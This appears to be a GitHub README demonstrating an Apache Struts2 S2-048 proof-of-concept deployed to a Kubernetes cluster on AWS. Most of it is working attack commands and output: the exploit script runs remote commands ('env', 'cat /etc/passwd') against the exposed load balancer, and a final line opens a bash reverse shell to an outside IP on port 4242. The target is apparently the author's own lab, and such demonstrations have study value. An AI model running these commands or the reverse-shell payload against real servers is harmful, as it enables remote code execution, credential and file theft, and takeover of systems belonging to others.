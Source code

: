 # struts_poc  
![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## This is nothing more than the Kali struts poc shown in a cluster. Simple.  
## Scroll down for a tldr GIF :-)  
  

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 
  

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
     
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  

`python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`


![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)


